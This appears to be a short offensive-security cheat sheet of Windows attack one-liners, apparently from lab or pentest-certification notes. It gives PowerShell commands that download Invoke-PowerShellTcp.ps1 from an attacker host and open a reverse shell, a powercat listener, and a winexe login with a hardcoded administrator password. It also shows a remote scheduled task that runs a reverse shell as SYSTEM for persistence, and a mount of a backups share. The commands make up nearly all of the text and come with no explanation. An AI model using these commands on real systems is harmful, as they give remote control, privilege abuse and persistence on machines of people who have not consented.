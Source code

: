 # Quick Commands

### Reverse Shell <a href="#reverse-shell" id="reverse-shell"></a>

powercat -l -v -p 443 -t 100

```
powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress 172.16.100.X -Port 443


powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.X -Port 443
```

```
winexe -U '.\administrator%u6!4ZwgwOM#^OBf#Nwnh' //10.10.10.97 cmd.exe
```

```
wmic os get osarchitecture
```

### Schedule Task <a href="#schedule-task" id="schedule-task"></a>

```
schtasks /create /S mgmtsrv.tech.finance.corp /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'Import-Module C:\Users\Public\Downloads\Invoke-PowerShellTcp.ps1;Power -Reverse -IPAddress 172.16.100.1 -Port 443 '"

schtasks /Run /S mgmtsrv.tech.finance.corp /TN “STCheck”
```

```
mount -t cifs //10.10.10.134/backups /mnt -o user=,password=
```
